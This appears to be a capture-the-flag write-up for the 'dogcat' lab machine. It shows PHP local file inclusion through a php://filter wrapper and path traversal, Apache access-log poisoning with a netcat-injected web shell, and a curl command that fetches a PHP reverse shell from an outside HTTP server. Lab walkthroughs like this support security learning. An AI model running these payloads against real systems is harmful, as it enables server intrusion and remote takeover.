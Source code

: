 DOGCAT
===
- [x] FLAG1

First, I press F12 want to find any clue, but I don'y find.  
Seccond, I press DOG and CAT button, I got a lot cute picture, and I know **view** only allow dog or cat word.
![image](https://user-images.githubusercontent.com/67756786/195544351-dca3ecb7-941a-4f6d-b731-c2a414ddc0cb.png)

Now I try **php wraper** to take web code.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog
```

Got a text base on base64.
![image](https://user-images.githubusercontent.com/67756786/195545334-346cbd14-f4cd-4693-a74c-26a52680e9f3.png)

Decode, and then we know cute picture will be readomly picked out of ten.

![image](https://user-images.githubusercontent.com/67756786/195545544-018317ee-f418-41e9-956d-fdaac5b585d7.png)

Now, we try to take /etc/passwd

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd
```
First warring message is talk about path error, and it show us path is dog/../../../../etc/passwd.php.
Obviously, web code should be **include(_GET(view).php)**

![image](https://user-images.githubusercontent.com/67756786/195548462-a80629d6-aa6b-4645-b9ac-78ab62662eba.png)

We use %00 to comment that.
Path is correct but still got error.
![image](https://user-images.githubusercontent.com/67756786/195550444-82fc62ef-cd2c-4f00-ae25-ae96617249cc.png)

Now we need to know that the web how to write.

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../index
```
![image](https://user-images.githubusercontent.com/67756786/195551181-9ca38a4e-946e-4e4f-a94f-7ac00307154e.png)

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>

```

According to index.php source code, we know we have two variable , and we can use GET to change them. 
One of variable, ext, it's default value is .php,No wonder we use /etc/passwd to LFI will get error.

Now we need check /etc/passwd again.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd&ext=
```
work!
![image](https://user-images.githubusercontent.com/67756786/195553839-b10f7fb6-023f-4d19-9844-9ffe524981b8.png)

Then we need to find where can excute RCE vulnerable.  
First, confirm what web server

![image](https://user-images.githubusercontent.com/67756786/195554515-62f65ee8-f2d2-4730-b4f6-4a17e62a6bbf.png)

Second, confirm where apache log file
![image](https://user-images.githubusercontent.com/67756786/195555607-9db42cbd-a824-4ea2-8e19-c1785156e75b.png)

Finaly, try to got apache access.log
```
http://10.10.162.32//?view=dog/../../../../var/log/apache2/access&ext=.log
```
Work, nice!
![image](https://user-images.githubusercontent.com/67756786/195556701-5a70e822-e099-4857-9d17-e43fd7adffd4.png)

Now we try access.log can injection or not.
```
echo -e "GET <?php phpinfo(); ?>"| nc 10.10.162.32 80
```
Work
![image](https://user-images.githubusercontent.com/67756786/195557135-6a978839-dad3-4fdd-a902-765dc8206e2f.png)

Now I want put web shell into that.
```
echo -e "GET <?php if(isset($_GET['cmd']))  {  system($_GET['cmd']);  }?>" | nc 10.10.162.32 80
```
But I got this error message, and then I reboot target machine.
![image](https://user-images.githubusercontent.com/67756786/195541111-f95d8e1f-1e61-4993-8f85-7c2c0fa74aa2.png)

And then I think that I just want to print result of excution, after that I change my RCE code.

```
 echo -e "<?php system(\$_GET[B]); ?>" | nc 10.10.142.129 80
```

Success!
![image](https://user-images.githubusercontent.com/67756786/195745918-9ef79f1d-3981-4432-8764-c8382e9c0e56.png)

Now we need to uplode php reverse shell and excute it.  
First, uploade php revere shell, we can use python http server and use curl dowload reverse shell.
Second, excute this reverse shell.
php reverse shell(https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
If you reverse shell is ready, we can open python http server
![image](https://user-images.githubusercontent.com/67756786/195754923-4cc04d9b-d523-4f31-902c-e1e562060afb.png)

After, we dowload and excute that.  
Dowload
```
http://10.10.142.129/?ext=&view=dog/../../../../var/log/apache2/access.log&B=curl -o /var/www/html/s.php%20http://10.10.180.17/shell.php
```
Excute
```
http://10.10.142.129/?view=dog/../s
```
But, got a error message, seem to be not use this method.

![image](https://user-images.githubusercontent.com/67756786/195755156-0699cb87-02fe-46af-a4b0-3a09d01d1eb2.png)

One day ago, I conscious my dowload URL is error, default port of python http server is 8000.  
Later, I do it again, same method, and work!

revereshell
![image](https://user-images.githubusercontent.com/67756786/195756571-aa5bc548-2fcc-4a9c-a1e6-e935aef44fcd.png)

Now, we need to got four flag! I will use `find` to search flag

```
find * -name flag*
```

![image](https://user-images.githubusercontent.com/67756786/195767056-726c156b-0903-4424-9604-1396ff6c6123.png)

and open that.

![image](https://user-images.githubusercontent.com/67756786/195767322-991d0302-a03d-4ac1-b2b5-c240764b1bea.png)


- [x] FLAG2

![image](https://user-images.githubusercontent.com/67756786/195767344-8ca50948-1b04-47c2-bf49-1986efa95617.png)

- [x] FLAG3


- [x] FLAG4
